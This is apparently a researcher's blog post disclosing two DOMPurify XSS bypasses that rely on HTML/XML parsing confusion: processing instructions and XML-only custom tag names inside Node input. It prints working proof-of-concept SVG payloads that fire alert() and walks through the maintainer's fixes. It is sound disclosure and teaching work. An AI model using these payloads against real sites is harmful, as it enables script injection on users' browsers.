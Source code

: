 +++
title = 'DOM Purify - untrusted Node bypass'
date = 2024-03-19T00:00:00+03:00
draft = false
+++

# Introduction

In this article, I aim to elucidate a deficiency in the implementation of DOMPurify that I recently uncovered. While it may not pertain to the most common use cases of this library, I found it to be a compelling discovery worthy of exploration.

# Purify ~~strings~~ nodes
In most scenarios, when utilizing the library, a string is passed to the sanitize function:
```javascript
DOMPurify.sanitize("<a href='https://x.com/slonser_'>slonser</a>")
// output: <a href="https://x.com/slonser_">slonser</a>
```
However, there exists a less common yet notable capability - passing an HTML Node as an argument to the function:
```javascript
let a_element = document.createElement("a")
a_element.href="https://x.com/slonser_"
DOMPurify.sanitize(a_element)
// output: <a href="https://x.com/slonser_">slonser</a>
```
I recently encountered such usage of the library. Let's consider a simplified example:
```javascript
        function pastUserFrame(user_link){
            let frame = document.createElement('iframe');
            frame.sandbox='allow-same-origin'
            frame.id='frame'
            frame.src=user_link
            document.body.appendChild(frame);
        }

        function validateOnClick(){
            let box = document.createElement('div')
            box.class='user-input'
            let button = frame.contentDocument.documentElement;
            box.appendChild(button)
            user_container.innerHTML = DOMPurify.sanitize(box)
        }
```
On this website, we have the capability to upload files and access them via a link. Unfortunately, all these links are subjected to a Content Security Policy (CSP) that prevents XSS exploitation. However, we have the ability to embed a tag from this document onto a page with a weaker CSP.

# You can't get XSS...
The truth is, the parsing process itself doesn't differ. If we look at the [code](https://github.com/cure53/DOMPurify/blob/fcb9dbd9a935d91e1a087b5ee721da1c6b008790/src/purify.js#L1425C7-L1439C6), the only distinction is that we don't need to first convert the string into a Node, because it already is one. So, the process cannot be circumvented unless we find a way to bypass DOMPurify's filtering in general cases.
```javascript
else if (dirty instanceof Node) {
      /* If dirty is a DOM element, append to an empty document to avoid
         elements being stripped by the parser */
      body = _initDocument('<!---->');
      importedNode = body.ownerDocument.importNode(dirty, true);
      if (importedNode.nodeType === 1 && importedNode.nodeName === 'BODY') {
        /* Node is already a body, use as is */
        body = importedNode;
      } else if (importedNode.nodeName === 'HTML') {
        body = importedNode;
      } else {
        // eslint-disable-next-line unicorn/prefer-dom-node-append
        body.appendChild(importedNode);
      }
    }
```
# Confusion...
Therefore, I decided to think differently. If I don't want to bypass the parser, what unexpected behavior can I trigger?
After some thought, I realized that **confusion between HTML and XML** contexts could help achieve XSS.


If I were to elaborate on my thought, the issue lies in the fact that an XML Node can be a child element of HTML Node, and I immediately assumed that this could create problems.


I tested by uploading a simple SVG file to the server and inserting its link into the function call.
*svg.svg*
```xml
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.0//EN" "http://www.w3.org/TR/2001/REC-SVG-20010904/DTD/svg10.dtd"><svg id="slons" xmlns="http://www.w3.org/2000/svg"><circle></circle></svg>
```
After that, we can verify that the object was successfully transferred into the HTML tree.
![](./1.jpg)
# And what?
Yes, we can indeed insert an XML node into HTML, but that alone doesn't give us the opportunity to obtain XSS. What's next? We should look for differences between XML and HTML!

And at that moment, I remembered that in XML there exists a concept called **Processing Instructions**, whereas in HTML it is absent.

**Processing Instructions** in XML are special markup constructs used to convey instructions to applications that process XML documents. They are typically used to provide information about how the XML document should be processed or interpreted, rather than representing data or content within the document itself.

Processing Instructions are structured as follows:
```
<?target instructions?>
```
# Purify instructions?
I immediately decided to see how DOMPurify handles Processing Instructions.
```javascript
DOMPurify.sanitize("<?xml-stylesheet src='slonser' ?>", {PARSER_MEDIA_TYPE: 'application/xhtml+xml'});
// output: <?xml-stylesheet src='slonser' ?>
```
So, Process Instructions are not removed, but why?
Let's check the source code:
```javascript
  const _createNodeIterator = function _createNodeIterator(root) {
    return createNodeIterator.call(root.ownerDocument || root, root,
    // eslint-disable-next-line no-bitwise
    NodeFilter.SHOW_ELEMENT | NodeFilter.SHOW_COMMENT | NodeFilter.SHOW_TEXT, null);
  };
```
`_createNodeIterator` is a function that traverses the DOM tree objects, used for sanitizing elements. As a matter of fact, the following filters are passed to it: `NodeFilter.SHOW_ELEMENT | NodeFilter.SHOW_COMMENT | NodeFilter.SHOW_TEXT`, but in order for the iterator to return Process instructions, the filter `NodeFilter.SHOW_PROCESSING_INSTRUCTION` must be enabled.

# Processing Instructions in HTML?
Let's pass the following file via link to the application we are examining:
```xml
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.0//EN" "http://www.w3.org/TR/2001/REC-SVG-20010904/DTD/svg10.dtd"><svg id="slons" xmlns="http://www.w3.org/2000/svg"><?slonser href="C4T BuT S4D"?> </svg>
```
![](./2.jpg)
We will see that our instruction has turned into a comment. So, have we lost? 


No. If you look closely, you will notice that in XML, the closing delimiter will be `?>`, whereas the HTML parser in the browser will search for `>` until the end of the comment.
Now let's upload the next file:
```xml
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.0//EN" "http://www.w3.org/TR/2001/REC-SVG-20010904/DTD/svg10.dtd"><svg id="slonser" xmlns="http://www.w3.org/2000/svg"><?xml-stylesheet > <img src=x onerror="alert('DOMPurify bypassed!!!')"> ?></svg>
```
And we will see a popup alert! while the structure of the DOM tree will look like this:
![](./3.jpg)

# First Fix
On the same day, I wrote to the project maintainer, and he almost instantly pushed the [fix](https://github.com/cure53/DOMPurify/commit/1b5963966c6a444f5ebc6f77e0c21a1d46a80164). (I think if there was a prize for the fastest fix, he would win it.):
``` javascript
-    NodeFilter.SHOW_ELEMENT | NodeFilter.SHOW_COMMENT | NodeFilter.SHOW_TEXT, null);
+    NodeFilter.SHOW_ELEMENT | NodeFilter.SHOW_COMMENT | NodeFilter.SHOW_TEXT | NodeFilter.SHOW_PROCESSING_INSTRUCTION, null);
```
As you can see now, NodeFilter also check Process Instructions, and now they are removed. But does this completely fix the problem at its core?
# Custom configuration
Yes, this does indeed solve the issue in the standard configuration, but what about when the user extends the standard configuration?
For example:
```javascript
DOMPurify.sanitize(box, {CUSTOM_ELEMENT_HANDLING: {
        tagNameCheck: /-foo-bar$/,
        allowCustomizedBuiltInElements: true,
    }
})
```
This configuration allows any custom tags ending with `-foo-bar`.


In such a configuration, the problem will still persist. But why?


The issue lies in the fact that XML and HTML have different requirements for tag names.
While the tag `<_slonser-foo-bar>` will be valid in XML, it won't be recognized as a tag in HTML.
So let's test this file with extended configuration:
```xml
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.0//EN" "http://www.w3.org/TR/2001/REC-SVG-20010904/DTD/svg10.dtd"><_slonser-foo-bar data-slonser='&lt;iframe/src=javascript:alert()&gt;'></_slonser-foo-bar>
```
We will see the alert again, and the structure of the DOM tree will look like this:
![](./4.jpg)

# Second Fix
The next day, a fix was introduced for this issue. It involves checking the customElement name with a special regular expression:
```javascript
export const CUSTOM_ELEMENT = seal(/^[a-z][a-z\d]*(-[a-z\d]+)+$/i);
...
return tagName !== 'annotation-xml' && stringMatch(tagName, CUSTOM_ELEMENT);
```

# Conclusion
At the end of the article, I want to express gratitude to mario of [cure53](https://twitter.com/cure53berlin) for the quick resolution of the issue. I hope you enjoyed my article and learned a bit more about the differences between HTML and XML.